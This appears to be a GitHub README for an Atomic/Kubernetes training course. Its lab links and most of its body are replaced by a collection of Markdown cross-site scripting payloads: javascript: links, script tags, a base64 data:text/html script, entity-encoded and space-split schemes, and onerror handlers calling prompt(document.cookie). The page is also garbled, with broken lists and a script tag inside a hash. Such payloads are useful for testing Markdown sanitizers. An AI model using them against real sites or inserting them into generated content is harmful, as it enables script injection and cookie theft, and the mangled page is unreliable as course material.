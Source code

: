 # SATraining

## Order that the labs should be delivered:

1. [Deploy Atomic Hosts](javascript&#58;alert(1&#41;)deployAtomicHosts.md?q=<script type='text/javascript'>alert('xss')</script>)
1. [Atomic LVM Storage](atomicDockerLVM.md)
1. [SPC Images / Containers](spcContainers.md)
1. [Configure Flannel](configFlannel.md)
1. [Configure Kubernetes](https://%0d%0aprompt(1)&#59;com)

a5c3785ed8d6a35868bc169f07<script type='text/javascript'>alert('xss');</script>e40e889087fd2e

https://raw.githubusercontent.com/runcom/SATraining/master/index.html

 <a crossorigin='anonymous' integrity="sha256-10f6dcb805d710962eca1331ca575dfabc18c9aaadc5ce762825cc496f70d02d" href='javascript&#58;alert(1&#41;' alt="logo">test<a>

[Gotcha](javascript&#58this;alert(1&#41;)

> hello <img name="n" s
> rc
> &#61;"javascript&#58this;alert(1&#41;">*you*</a>

3. &#61;"javascript&#58this;alert(1&#41;">*you*</a>
4. 
5. 6. 
12. [notmalicious](javascript:window.onerror=alert;throw%20document.cookie)
[a](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)

[a](javascript:prompt(document.cookie))
[a](j    a   v   a   s   c   r   i   p   t:prompt(document.cookie))
![a](javascript:prompt(document.cookie))\
<javascript:prompt(document.cookie)>  
<&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>  
![a](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)\
[a](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)
[a](&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29)
![a'"`onerror=prompt(document.cookie)](x)\
[citelol]: (javascript:prompt(document.cookie))
[notmalicious](javascript:window.onerror=alert;throw%20document.cookie)
[test](javascript://%0d%0aprompt(1))
[test](javascript://%0d%0aprompt(1);com)


![a'"`onerror=prompt(document.cookie)](x)\
